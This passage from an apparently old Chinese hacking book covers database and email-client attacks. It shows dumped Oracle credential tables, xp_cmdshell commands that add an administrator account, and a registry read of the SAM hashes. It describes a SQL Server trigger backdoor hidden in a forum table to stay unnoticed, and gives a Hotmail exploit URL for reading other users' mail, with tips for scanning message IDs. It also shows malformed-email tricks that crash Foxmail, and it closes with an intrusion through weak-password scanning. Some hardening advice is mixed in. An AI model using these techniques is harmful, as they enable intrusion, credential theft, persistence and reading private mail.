是不是眼前一亮？出现了用户名和密码的字眼哦，那还等什么呢？提交如下语句吧：

```text
SQL> select UNAME,PASSWORD from ORCL.REGUSER......
```

| UNAME | PASSWORD |
|---|---|
| coolboy | 780929 |
| Babycat | 546789 |
| Mickey794951 | |
| WING | 357954 |
| Badb0y | 490570 |
| abcd | 161346 |
| wwwcool | 940216 |
| killer | 643059 |
| lilymi | 724811 |
| mick | 190553 |
| Nicky | 277514 |
| …… | …… |

得到了什么了？用户名和密码，而且是明文的！这样，我们就成功地得到了该数据库的敏感信息了，还想干什么呢？小心为妙，呵呵。

以上的密码是没有加密的，如果我们遇到那些安全意识比较强的管理员的话，那结果就不一样了，他会把默认密码更改掉，把敏感数据加密。比如，我遇到的另一个主机就是这样的情况了，密码不是明文显示的，而是进行了加密，这样就在一定程度上增强了安全性。

```sql
SQL> select user_login_name,user_password from **.**;
```

| USER_LOGIN_NAME | USER_PASSWORD |
|---|---|
| admin | oc1VhCpFQ2Gfv5ILgqBIJ4nj |
| zsq | fEqNCco3Yq9h5ZUgID3CZJT4 |
| cyc | fEqNCco3Yq9h5ZUgID3CZJT4 |
| alan | igp+2MewyV3chSc/kDsfXJX4 |
| cindy | Gb5DH4d0CCITzo09E7kJ8Ty5 |
| alice | fEqNCco3Yq9h5ZUgID3CZJT4 |
| carrie | fEqNCco3Yq9h5ZUgID3CZJT4 |
| wxm | fEqNCco3Yq9h5ZUgID3CZJT4 |
| zhangj | fEqNCco3Yq9h5ZUgID3CZJT4 |
| chengwl | fEqNCco3Yq9h5ZUgID3CZJT4 |
| peggy | fEqNCco3Yq9h5ZUgID3CZJT4 |

那么，密码加密了是否就没有办法了呢？当然不是的，即使是MD5加密的密码也是可以破解的嘛。如果密码破解不出来，我们至少也得到了用户的ID，哈……

就像MSSQL的sa弱口令可以得到系统权限一样，我们也可以利用这个得到主机的某些权限的，这里就不再讲了，当你明白了oracle的基本命令和操作指令后自然就知道了。

上面讲了这么多，那么如何来修改这个默认口令呢，这才是我们关心的问题。具体操作如下：

在SQL*DBA下键入：

```sql
alter user sys identified by password;
alter user system identified by password;
```

其中，password为你为用户设置的密码。

其实，就是这么简单的几个语句就可以把安全性提高很多。

总结：一句话，安全还是意识的问题，如果脑子里没有安全意识，那最安全的系统也是不安全的。

### 5.6 SQL Server触发器后门

首先说一下SQL Server触发器的概念，触发器其实跟SQL Server的存储过程有些相似（什么是存储过程就不用我说了吧，就是像xp_cmdshell这样的东西），可以执行一些特定的功能。

```text
end

go

--------------------code end--------------------
```

代码的解释已经很详细了，这里我再说一下具体实现的功能。这个脚本的实现的功能是每当这个表有 INSERT 特定内容的时候，该触发器就会在系统中建立一个系统账户。

上面的脚本是假设有一个 test 表，并且表中有个 UserName 的字段，每当向表中插入数据的时候，该触发器就会判断插入 aaa 字段的数据中有没有 shell 的字符串，如果有的话就加一个系统用户。为了不被发现，你可以把它插入到由 ASP 程序操作的表中（比如说论坛的帖子表），当有发特定内容的帖子的时候，该触发器就会检查贴子内容中有没有“shell”的字符串，如果发现有系统就加用户了。当然，在把触发器放到一个表之前的时候，你要根据这个表的结构稍微修改一下上面的脚本，如果你不懂 T-SQL 的话就看看 MS SQL Server 的帮助文件，里面写得很详细。学好 T-SQL 还是很有用的。

你可以根据需求自己更改功能，发挥你的想像，SQL Server 为我们提供了许多好用的存储过程，利用它们可以做许多事情。本脚本只是提供一个思路，所以只写了一个加用户和开 Telnet 服务的功能。

我想管理员是很难想到后门会放在 SQL 的表中，只要他的数据库中的表不删，我们就可以一直利用这个后门。如果你还有什么不明之处，欢迎给我来信 sh0cker@163.com

## 5.7 保护数据库服务器加强数据库安全

数据库是电子商务、金融以及 ERP 系统的基础，通常都保存着重要的商业伙伴和客户信息。数据的完整性关系到系统安全，这在数据库中非常重要，但是数据库通常没有像操作系统和网络这样在安全性上受到重视。数据完整性和合法存取会受到很多方面的安全威胁，包括密码策略、系统后门、数据库操作以及本身的安全方案。

#### 为什么数据库安全很重要？

1. **保护敏感信息和数据资产**
大多数企业、组织以及政府部门的电子数据都保存在各种数据库中。他们用这些数据库保存一些个人资料，比如员工薪水、医疗记录、员工个人资料等等。数据库服务器还掌握着敏感的金融数据。包括交易记录、商业事务和帐号数据、战略上的或者专业的信息，比如专利和工程数据，甚至市场计划等等应该保护起来防止竞争者和其他非法者获取的资料。数据库服务器还保存着一些有关员工详细资料的东西比如银行帐号、信用卡号码，以及一些商业伙伴的资料。

2. **数据库同系统紧密相关并且更难正确地配置和保护**
数据库应用程序通常都同操作系统的最高管理员密切相关。比如 Oracle、Sybase、MS SQL Server 数据库系统都有下面这些特点：用户帐号和密码，认证系统，授权模块和数据对象的许可控制，内置命令（存储过程），特定的脚本和程序语言（通常派生自 SQL），中间件，网络协议，补丁和服务包，数据库管理和开发工具。许多 DBA 都全日工作来管理这些复杂的系统。但是，安全漏洞和不当的配置通常会造成严重的后果，而且都难以发现。而且一些安全公司也忽略数据库安全，数据专家又不把安全作为主要职责。“网络安全适应性”哲学——把安全当作持续过程而不是一次性的检查，还没有被数据库管理员认可。

3. **网络和操作系统的安全被认为非常重要，但是却不这样对待数据库服务器**
安全专家认为这是的一种普遍现象，他们都认为只要把网络和操作系统的安全搞好了，那么所有的应用程序也就安全了。现在的数据库系统都有很多方面被误用或者漏洞影响到安全。而且这些关系数据库都是“端口”型的，这就表示任何人都能够用分析工具试图连接到数据库上，而绕过操作系统的安全机制。

比如：Oracle7i和Oracle8使用的端口是1521和1526。多数数据库系统也有公开的默认帐号和默认密码。这两个特性大大地危害着数据库的安全。

4. **少数数据库安全漏洞不光威胁数据库的安全，也威胁到操作系统和其他可信任的系统。**
这也是为什么数据库安全很重要的原因：有些数据库提供机制威胁着网络安全低层。比如，某公司的数据库里面保存着所有技术文档、手册和白皮书，不认为数据库的安全非常重要。即使运行在一个非常安全的操作系统上，入侵者可能通过数据库获得操作系统权限，只需要执行一些内置在数据库中的扩展存储过程。这些存储过程能提供一些执行操作系统命令的接口，而且能访问所有的系统资源，如果这个数据库服务器还同其他服务器建立着信任关系，那么，入侵者就能够对整个域机器的安全产生严重威胁。

5. **数据库是电子商务、ERP系统和其他重要的商业系统的基础。**
许多电子交易和电子商务的焦点都放在WEB服务、JAVA和其他技术上，那么对于以关系数据库为基础的客户系统和B2B系统，数据库就显得更加重要。安全将直接关系到系统可靠性、数据事务完整性，和保密性。系统如果出现问题，将不仅对交易产生影响，同时也影响着公司的形象。这些系统需要对所有合作伙伴和客户信息保密性负责，但是它们又同时是对入侵者开放的。另外，ERP和像SAP R/3这样的管理系统都是建立在一些基本数据库系统上的。安全问题将直接同维护时间、系统完整性和客户信任密切相关联。

#### 需要注意哪些安全漏洞？

传统数据库安全主要集中在用户帐号、规则和操作许可（比如对表和存储过程的访问权）上。而实际上，一个完全的数据库安全分析包含的范围宽得多，包括所有可能范围内的漏洞详述。下面是一些类别：

- 软件风险。软件本身漏洞，错过操作系统补丁，脆弱的服务和不安全的默认配置等。
- 管理风险。提供的安全选项不正确操作，默认设置，不正确地给其他用户提供权限，以及没有得到许可的系统配置改变等。
- 用户行为风险。密码不够长，不恰当的数据访问和恶意操作（偷窃数据结构）等。

这些风险类别也同样适用于网络服务、操作系统。当加强数据库安全的时候，所有的因素都应该考虑。

### 数据库安全——弱点和例子

下面列出一些常用数据库服务器安全漏洞和配置缺陷。

#### 安全特性缺陷

大多数关系数据库已经存在上10年了，都是成熟的产品。不幸的是，IT和安全专家对网络和操作系统要求的许多特性在多数关系数据库上还没有被使用。没有内置一些基本安全策略。

| 特性 | MS SQL Server | Sybase | Oracle7 | Oracle8 |
|---|---|---|---|---|
| 帐号锁定 | N | N | N | Y |
| 管理员帐号重命名 | N | N | N | N |
| 帐号健壮性要求 | N | N | N | Y |
| 帐号失效 | N | N | N | N |
| 密码失效 | N | Y | Y | Y |
| 登陆时间限制 | N | N | N | N |

由于这些数据库都是“端口性”的，操作系统核心安全机制不提供给数据库的网络连接，比如MS SQL Server，可以使用WINDOWS NT的安全机制来弥补上面的缺陷，但是，多数运行MS SQL Server的环境并不一定都是100%的 Windows NT。执行又是另一个问题。如果在运行Oracle 8，管理员怎么知道这些安全特性正在被使用？

#### 数据库账号管理

上面列举这些特性连起来，将更加严重。由于系统管理员账号不能改变（SQL Server和Sybase是“sa”，Oracle是“system”和“sys”），如果没有设置密码，入侵者就能直接登录并攻击数据库服务器，没有任何东西能够阻止他们获得更高权限的系统账号。

多数数据库提供的基本安全特性，都没有机制来限制用户必须选择健壮的密码。这就需要更加谨慎的控制和管理。也有一些额外的功能来管理和保护整个密码表。比如，Oracle系统有超过10个特殊的默认用户账号和密码，并且有特定的密码来管理一些数据库操作，比如数据库的启动，控制网络监听进程和远程数据库登录特权。许多系统密码都能给入侵者完全访问数据库的机会；更甚的是，有些就储存在操作系统中的普通文本文档中。比如：

Oracle 内部密码，储存在strXXX.cmd文件中，其中XXX是Oracle系统ID和SID，默认是“ORCL”。这个密码用于数据库启动进程，提供完全访问数据库资源。这个文件在Windows NT中需要设置权限。

Oracle监听进程密码，保存在文件“listener.ora”（保存着所有的Oracle执行密码）中，用于启动和停止Oracle的监听进程。这需要设置一个健壮的密码来代替默认的，并且必须对访问设置权限。入侵者可以通过这个弱点进行DoS攻击。

Oracle内部密码——“orapw”文件权限控制。Oracle内部密码和账号密码允许SYSDBA角色保存在“orapw”文本文档中，该文件的访问权限应该被限制。即使加密，也能被入侵者暴力破解。

这些只是一些例子。密码保护不仅只针对Oracle，其他数据库系统一样需要。

#### 操作系统后门

多数数据库系统都有一些特性，来满足数据库管理员，这些也成为数据库主机操作系统的后门。

对于Sybase和SQL Server的账号“sa”，入侵者可以执行“扩展存储过程”来获得系统权限。只要登录作为“sa”，就可以使用扩展存储过程xp_cmdshell，这允许Sybase和SQL Server用户执行操作系统命令，就好象在运行操作系统的命令行模式。比如，下面可以添加一个系统账号“refdom”，密码是“nopassword1”，并且添加到administrators组中：

```sql
xp_cmdshell 'net user refdom nopassword /add'
go

xp_cmdshell 'net localgroup /add administrators refdom'
go
```

这就是因为SQL Server用Windows NT的本地账号“localsystem”来运行的命令。黑客还可以使用xp_regread来读取加密的SAM密码。然后再暴力破解。

```sql
xp_regread 'HKEY_LOCAL_MACHINE', 'SECURITY\\SAM\\Domains\\Account', 'F'
```

注意，能读出加密的密码是NT的"administrator"账号也不能做的。SQL Server能读出来同样是使用的“LocalSystem”账号。

Oracle有这样的特性，可以获得操作系统的文件访问权限。比如，UTL_FILE允许用户读和写文件，UTL_FILE_DIR可以用来设置用户使用UTL_FILE读写文件。

#### 审核

主要信息和时间能被关系数据库的认证系统很详细地记录下来，但是，这只能在正确地使用和配置下才能起到安全和报警作用。这些功能能提前报警入侵者正在威胁数据库服务器，并且能探测和修复破坏。

#### 木马的威胁

数据库管理员需要特别小心，一个著名的木马能够修改密码改变存储过程以修改密码，而且能通知入侵者。比如，可以添加几行到sp_password中，记录新帐号到库表中，通过EMAIL发送这个密码，或者写到文件中以后使用。这个存储过程不断地获得密码，直到弄到“sa”的密码。

总之，安全专家、DBA等等都需要注意数据库安全就像他们配置系统一样。

## 第6章 另类脚本攻击与防范

### 6.1 Hotmail脚本漏洞分析

前些日子沸沸扬扬的Hotmail信息泄露漏洞可能大家都有所耳闻，该漏洞可以让你看到其它人的信件，微软尽管惊慌失措，但还是及时的推出了漏洞补丁。不过对于广大黑客技术爱好者来说，通过研究也会有一些领悟。

**测试环境**

Internet Explorer 5

**测试过程：**

1. 登录你在Hotmail的ID（任何账号）
2. 使用下面链接来利用该漏洞

```
http://pv2fd.pav2.hotmail.msn.com/cgi-bin/saferd?_lang=EN&hm___tg=http%3a%2f%2f64%2e4%2e36%2e250%2fcgi%2dbin%2fgetmsg&hm___qs=%26msg%3dMSG998047250%2e22%26start%3d9702%26len%3d9687%26raw%3d0%26disk%3d64%2e4%2e36%2e68_d1577%26login%3dusername%26domain%3dhotmail%2ecom&hm___fl=attrd&domain=hotmail.com

or

http://lw14fd.law14.hotmail.msn.com/cgi-bin/saferd?_lang=EN&hm___tg=http%3a%2f%2f64%2e4%2e36%2e250%2fcgi%2dbin%2fgetmsg&hm___qs=%26msg%3dMSG998047250%2e22%26start%3d9702%26len%3d9687%26raw%3d0%26disk%3d64%2e4%2e36%2e68_d1577%26login%3dusername%26domain%3dhotmail%2ecom&hm___fl=attrd&domain=hotmail.com
```

利用这个链接时，需要改变的几个值：

- `MSG943322803%2e16`（信件编号，“%2e”代表“.”）
- `username`（Hotmail登录的名字）
- （如果你想要观看时跟邮箱观看相同的话，就删除`%26raw%3d0`，以获取完整观看方法）
- （如果你不想让Hotmail在最顶端，那么就删除`&hm___fl=attrd&domain=hotmail.com`）

3. 完成：当你有正确的信件编号跟账号，那么你就能看到那个人的那封信。
   - （如果你拥有两个Hotmail账号时，你可以这样测试：进去第一个账号观看正确的信件编号，然后使用另一个账号登录，按照上面的修改，你就能看到第一个账号的信件了。）

下面是关于扫描的一种建议

由于邮件编码太多，不适合手动测试。所以你可以做一个简单的扫描器，来扫描邮件编码。这个扫描器必须在IE里工作，因为你必须登录后才能使用这漏洞。

以下一些信息可以帮助你：

在你的HotMail信箱，你可以发现类似于这类的邮件编码：

- MSG997936971.27 arrived on 16.08.2001.
- MSG996698372.27 arrived on 01.08.2001.
- MSG975960863.0 arrived on 04.12.2000.

通过上面你可以发现，不需要去扫描太大范围的地址。你可以在相应的范围内去扫描。

(Check out Hotmail Scanner Bot aka. hobo for automatic scanning.)

你可以使用下面的链接来直接观看漏洞发现者信箱内的邮件，先登录你的账号，然后复制到IE上执行。

```
raw format view: (can copy base64 encoded files too:)
http://pv2fd.pav2.hotmail.msn.com/cgi-bin/saferd?_lang=EN&hm___tg=
http%3a%2f%2f64%2e4%2e36%2e250%2fcgi%2dbin%2fgetmsg&hm___qs=%26msg%3dMSG998047250%
2e22%26start%3d1%26len%3d999999999999%26raw%3d0%26login%3djokutesti99%26domain%3dhotmail%2ecom
```

```
email box view: (can see any attached images directly etc..)
http://pv2fd.pav2.hotmail.msn.com/cgi-bin/saferd?_lang=EN&hm___tg=
http%3a%2f%2f64%2e4%2e36%2e250%2fcgi%2dbin%2fgetmsg&hm___qs=%26msg%3dMSG998047250
%2e22%26start%3d1%26len%3d999999999999%26login%3djokutesti99%26domain%3dhotmail%2ecom
```

上面是漏洞发现者的公布邮件，我们主要分析一下他使用的方法，跟这个漏洞为什么会出现。

这漏洞利用主要是Hotmail在saferd的hm___tg转向时没有验证使用者的密码跟权限，而是只验证了“有没有正确登录”。而你只要正确登录一个任意HOTmail账号就能够绕过这个验证。其次由于HOTMAIL并没有限制URL POST参数。所以可以直接在IE上指定了我们想要的值，`login%3djokutesti99`，这里也说明了HOTMAIL检测了IE里面的特殊字符`%3d`（等于`=`）。`login=jokutesti99`（我们想看的账号），跟邮件编码`msg%3dMSG998047250%2e22`（即`msg=MSG998047250.22`），这里我们赋值给login跟msg让它成为我们想要的。

如果你只使用`http%3a%2f%2f64%2e4%2e36%2e250%2fcgi%2dbin%2fgetmsg&hm___qs=%26msg%3dMSG998047250%2e22%26start%3d1%26len%3d999999999999%26login%3djokutesti99%26domain%3dhotmail%2ecom`这样的链接是没有效果的。

总结：上面说过，这漏洞存在是由于“Hotmail在saferd的hm___tg转向时没有验证使用者的密码跟权限”，之所以使用`%3d`这样的来解析，是因为HOTMAIL检测了IE里面的特殊字符。

### 6.2 Foxmail 个性图标签名带来的安全隐患

#### 前言

前几天收到一封网友的来信，信件的内容没有什么，但是奇怪的是Foxmail提示来信的时候，还有一个漂亮的小图标，挺有意思的。开始我还以为又是利用那个agent搞的玩意，但是仔细一想感觉不是，赶紧翻了一下Foxmail的帮助，在新增功能中找到了如下内容：个性图标签名邮件……

Foxmail在收信，忽然，一个可爱的小动物跑到了你的屏幕上，您一看就知道是好朋友来信了。用鼠标轻点，小动物立刻帮你把邮件打开。这就是Foxmail提供的个性图标签名邮件功能。的确是不错的功能！：）

由于职业的特点和个人的习惯，我就想看看该功能是不是有什么漏洞！

#### 尝试

1. 账户—>属性—>账户属性—>个人信息—>在邮件中使用个性图标（复选）—>选择图标（选择Foxmail提供的小动画或其他喜欢的.gif格式的小图片或者动画作为个性签名）—>确定
2. 打开写邮件窗口，你会看到刚才选择的个性图标。填入一些发信的必要信息，比如：
   收件人：analysist@notfound.org
   主题：Hi
   内容：This is a test!
3. 保存。

首先，先创建一封个性图标签名邮件，具体步骤为：

其次，在发件箱中选中该邮件，然后进行如下操作：文件—>导出邮件—>另存为—>确定。

最后，用UltraEdit打开该邮件，我们可以看到如下内容：

```
From: analysist <analysist@notfound.org>    // 发信人
To: analysist@notfound.org <analysist@notfound.org>    // 收件人
Subject: Hi    // 主题
X-mailer: FoxMail 4.0 beta 2 [cn]    // 邮件客户端
Mime-Version: 1.0    // MIME 版本
Content-Type: multipart/mixed;
 boundary="======000_Dragon220814422407_======"    // 指定分界符

This is a multi-part message in MIME format.    // 注释

------000_Dragon220814422407_======    // 分界符
Content-Type: text/plain;    // MIME 类型
 charset="GB2312"    // 字符集
Content-Transfer-Encoding: base64    // 编码方式

VGhpeBiBpcyBhIHRlc3QhDQ0=    // 信件内容，这里就是base64编码后的“This is a test!”

------000_Dragon220814422407_======    // 分界符
Content-Type: image/gif;    // MIME 类型
 name="pikaqu.gif"    // 文件名
Content-Transfer-Encoding: base64    // 编码方式
Content-Disposition: FoxmailIcon;    // 这是Foxmail自己的定义，其它客户端是不支持的
 filename="pikaqu.gif"    // 文件名

R0lGODlhIAAgAKAIAAFUAACoAAP9fAP+/AP+fAP//AAAAAACAgCH/C05FVFNDQVBFMi4wAwEAAAAh/
g5CdWIsdCBieSBaaXBweQAh+QQBZAAHACwAAAAAIAAgAAAD/ni63P4wykmrveSYS7P5m/
MhmWUQwPiAPkBKAU5lAMbgCD0YqV5hOAqSfLHrJG7BWzDG=1ATA4Dk8TKLUOAS8PqaC0H/m3A7ggUVwE0Q8Lagg/
V6OR84XFcfRG+AH40AidjcEaB3Y0M3xLWyJdqnFAIkMBm59QEKLQ25UyYoB44T1FnqNjjQ89kU8jULUHoc/
FL1o3qagTZ8bOAnypiBRjOM5hUkUfnitHLsZwX7vbFS1Fu8MEsGgtFy1hu5MubJu4E6vWLV/
OEONCTJ8AUGzbAEwA3DQwj8AgdbJATZRwK0KBNSODXCY6Dx48q035MAAAh+QQBZAAHACwAAAAAIAAgAAAD/
ni63P4wykmrveSYS7P5m/MdmWUQwPiARkBkKAiu51AMbgClgD0YqV5hOAqSfLHrJG7BWz
D6E1ATA4DK8TKLUOAS8PqaC0H/m3AfgdUWyEAFAPCV6viQnEFSLR9EZwUAFB1cXYFYN7S1cjGHCLDAZuDhCigVim
MnAWVMbmxPOE9RYaMzYiUPPWy2t1CWjy4SKGgwvCGaN6SJE2fByQJ7plqUY8vJYVJHf5krRy7BcF+21hUtRba+
BKtoLRctR7YCh+uWsxOm0S9sL0DL7SYvAG7A5zb6ndhnyZ+jZTecNJUTkYKNYnynwUUjhgMA3DhgzatyYAjEBADs=
```

// 编码后的图标内容

```
------000_Dragon220814422407_======--    // 分界符
```

经过简单的操作和分析，我们知道Foxmail对于个性图标的格式进行了检查，也就是说，你所提交的必须是符合GIF格式的图片，而且大小为64X64像素。另外一点就是，Foxmail并不根据你为个性图标所指定的“Content-Type”来进行不同的处理，而是只把它当作“image/gif”。

#### 实验

难道我们真的无从下手？其实未必，让我们进行如下的几个实验：

##### 实验一：修改个性图标编码方式

将Foxmail个性图标部分改为下面的样子：

```
Content-Type: image/gif;  // MIME 类型
name="pikaqu.gif"  // 文件名
Content-Transfer-Encoding: base00  // 修改为其它或不存在的编码方式
Content-Disposition: FoxmailIcon;  // 这是 Foxmail 自己的定义，其它客户端是不支持的
filename="pikaqu.gif"  // 文件名
```

然后导入该邮件并发送，过一些时间后，收取该账号的邮件，猜猜你会看到什么？ 图6-2-1



图6-2-1

##### 实验二：修改个性图标内容

在Foxmail个性图标的编码内容中增加base64中不存在的字符：

```
R0lGODlhIAAgAKIAAFUAACoAAP9fAP+/AP+fAP//AAAAAACAgCH/C05FVFNDQVBFMi4wAwEAAAAh/
g5CdWIsdCBieSBaaXBweQAh+QQBZAAHACwAAAAAAAAAgAAAAAD/ni63P4wykmrveSYS7P5m/
VtrhWcxPjARBKAL51AWbgJqJYqv5sOAgsLHrIG7BWzD6E1ATAt4LX8FKJoASBPeGuH7m3AFgg0JWW6CXO0rjgg/
V6OR84fXcfRGsAH4OAhjdTEB3YOM3xLWYJdqmFAikMBrn5CQEKL025uYyqBZJxJeB4T1FhpDNiJC89dLo8LUULhec/
FL1o3gagTZ8bOAnypiBRjOM5hUkUfnitHLsZwX7vbFS1Fu8MEsGgtFy1Hu5MubJu4E6vVVL/
QFNCTJ8AAGnGtbAFwA3DQwj8AgthUATZKRwKoKENSODJXCYfDx48gQ35MAAAh+QQBZAAHACwAAAAAAAAAgAAAAAD/
ni63P4wykmrveSYS7P5m/MdmWUQwPjARBKAL5J1AWbgCIgD0YqV5hOAgsFLHrIG7BWzD6E1ATA4D
K8EPKiUOtASBlRpaGObH7m3AFgg0UYWtEAFAPCVI6viCPnFFSLR9EZwUAfRBJcXYFYTN7S1lcjGFnQHuIDAZufDhCig
VibmMAWVMbmvPQE9RYaM2YjUPPWy2t1CWvj4SKgvwcaJ6SiE2ByQJPbUY8vYVJFJ5kiRy7BcF+21hUPba+BKtdL
RctR7YCh+uWsxOm0S9sL0DL7SYvAG7A5zb6ndhnyZ+jZT/ecNjUTKYKnymuUUhjqdVA3DhgztayYAJEBADs=?
```

// 注意最后增加的“？”

##### 实验三：删除个性图标内容

适当删减Foxmail个性图标的编码内容：

```
------------------------------snip------------------------------
R0lGODlhAAgAKIAAFUAACoAAP9fAP+/AP+fAP//AAAAAACAgCH/C05FVFNDQVBFMi4wAwEAAAAh
------------------------------snip------------------------------
```

导入邮件，发送，接收：图6-2-3



图6-2-3

##### 实验四：删除个性图标内容

这次我们完全删除Foxmail个性图标内容：

```
------------------------------snip------------------------------
--======000_Dragon220814422407_======    // 分界符
Content-Type: image/gif;    // MIME 类型
    name="pikaqu.gif"    // 文件名
Content-Transfer-Encoding: base64    // 编码方式
Content-Disposition: FoxmailIcon;    // 这是Foxmail自己的定义，其它客户端是不支持的
    filename="pikaqu.gif"    // 文件名

--======000_Dragon220814422407_======    // 分界符
------------------------------snip------------------------------
```

废话少说，我们再来看看发生了什么：图6-2-4



图6-2-4

##### 实验五：修改信件内容

这次我们对信件内容进行一下修改，我们增加base64编码中没有的字符：

```text
Content-Type: text/plain;   //MIME类型
    charset="GB2312"   //字符集
Content-Transfer-Encoding: base64   //编码方式

VGhpeiBpcyBhlHRlc3QhDQo=>   //注意后面的“>”
```

我们看看效果：图6-2-5



图6-2-5

注：本文的测试环境为：Microsoft Windows 2000 Professional + Foxmail v2.0 beta 2

#### 危害

前面四个问题造成的危害基本相同，就是无法删除服务器上的该邮件，也无法接收邮件队列中位于该邮件之后的邮件。后面的一个问题只是具有一定的骚扰效果，没有其它严重的问题，但是如果别人给你发送大量这样的垃圾邮件呢？

#### 分析

由于本人没有源代码以及能力所限，所以下面的分析仅供参考：

漏洞一：Foxmail接收模块收取邮件后，检查“Content-Transfer-Encoding”，如果不是自己支持的编码方式，就不对其进行解码。由于该邮件中存在Foxmail自定义的标记，因此Foxmail调用图象处理函数对个性图标进行处理。由于该内容没有被解码，而Foxmail的图象处理函数只处理特定版本和大小的GIF图像，因此Foxmail的图像处理函数在处理个性图标头部时即出错终止，而没有进行删除该邮件的操作。

漏洞二：Foxmail接收模块在对个性图标内容进行解码时，没有检查其是否符合base64算法要求，从而导致出错终止。

漏洞三：Foxmail接收模块的图象处理函数对个性图标头部解码正确，但是由于个性图标内容被删减，因此处理后的个性图标不符合GIF图象格式，因此出错终止。

漏洞四：Foxmail接收模块收取邮件时，并没有检查邮件内容，而是根据其中项的多少分配相应大小的数组。但是在将项的内容存入数组时，检查到了Foxmail自定义的标记，虽然我们删除了个性图标内容，但是Foxmail仍然为其分配了一个空值，从而导致数组越界而终止。

漏洞五：Foxmail接收模块按照“Content-Transfer-Encoding”指定的编码方式对信件内容进行解码，但是由于信件中包含base64算法中不存在的字符，因此Foxmail弹出窗口提示出错，但是并不终止。

通过以上的分析，我们可以看出Foxmail在错误检查以及处理错误的方式上还需要很多的改进，国产软件任重而道远啊！

#### 解决

目前的临时解决方法主要有以下三个：

- 1. 使用Foxmail提供的远程邮件管理功能删除有害邮件
- 2. 暂时换用其它客户端软件
- 3. 使用Telnet程序删除服务器上的有害邮件，具体命令可以参考相关文档

注：由于我们可以轻易改变“From:”域的值，从而达到匿名邮件的效果，因此通过邮件过滤恐怕无法达到预期的效果。

#### 其它

没什么需要多说的了，只要编程的时候多想一些不可能的事就好！

### 6.3 利用邮件头反入侵——入侵与反追踪的技巧

某年某月某日，我利用一个极其傻瓜化的密码猜测器，随便对一个网段的机器进行了IPC$弱口令扫描（一般来说，基于IPC$的密码探测扫描，如果对方管理员没有在本地安全策略中打开审核账户登陆事件，一般管理员是无法发现的，这种扫描也无法在对方机器上留下日志）发现了一些弱口令的机器，使用 DameWare Mini Remote Control 远程连接软件连接上去，属于 Mail Server 服务器，于是随手在Imail中添加了一个 kaka@***.com 的邮件账户。

